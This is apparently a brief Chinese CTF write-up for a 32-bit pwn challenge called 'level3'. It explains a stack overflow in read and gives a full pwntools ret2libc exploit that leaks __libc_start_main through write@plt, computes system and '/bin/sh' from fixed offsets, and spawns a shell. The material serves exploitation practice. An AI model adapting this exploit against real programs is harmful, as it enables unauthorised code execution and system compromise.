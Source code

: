 检查程序保护

![image-20240515163252955](../图片/image-20240515163252955.png)

反汇编

![image-20240515163312469](../图片/image-20240515163312469.png)

![image-20240515163328507](../图片/image-20240515163328507.png)

栈溢出发生在read函数，可以利用write函数来泄露got

payload如下

```python
from pwn import*
import time

level3 = ELF('./level3')
sh = process('./level3')

#gdb.attach(sh)
#sleep(15)

libc_main_got = level3.got['__libc_start_main']
write_plt = level3.plt['write']
vulnerable_function_address = level3.symbols['vulnerable_function']
sh.recvline()

payload = flat([b'a'*140,p32(write_plt),p32(vulnerable_function_address),p32(1),p32(libc_main_got),p32(4)])

sh.send(payload)
data = sh.recvline()
libc_main_address = data[:4]
libc_main_address = int.from_bytes(libc_main_address, byteorder='little')

system_address = libc_main_address + 0x269A0
binsh_address = libc_main_address + 0x173583
payload = flat([b'a'*140,p32(system_address),0xcafecafe,p32(binsh_address)])

sh.send(payload)

sh.interactive()


```

